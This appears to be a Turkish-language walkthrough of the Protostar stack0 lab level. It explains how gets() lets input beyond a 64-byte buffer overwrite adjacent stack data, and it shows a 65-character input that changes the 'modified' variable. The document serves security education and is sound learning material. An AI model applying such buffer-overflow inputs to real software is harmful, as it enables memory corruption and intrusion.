 Bu seviyede bize verilen kodda istenen girdiyle `modified` değişkeninin değerini değiştirmemizi istiyor. `buffer`a herhangi bir girdi uzunluğu kontrolü yapılmadan `gets` ile kullanıcıdan girdi alıyor. Bu da 64 karakterden sonra yazacağımız her girdi başta stackteki diğer `yerel değişkenler` olmak üzere sırasıyla `ebp`, `fonksiyonun geri dönüş adresi` (`ret`) gibi yapılara yazmaya başlayacaktır. Örnek stack yapısı:

![alt stack](protostarPNG/stackt.png "stackframe")
##### https://demirten.gitbooks.io/linux-yazilim-guvenligi/content/stack/intro.html

```bash
$ python -c "print 'A' * 64" | ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again?
```

```bash
$ python -c "print 'A' * 65" | ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
```
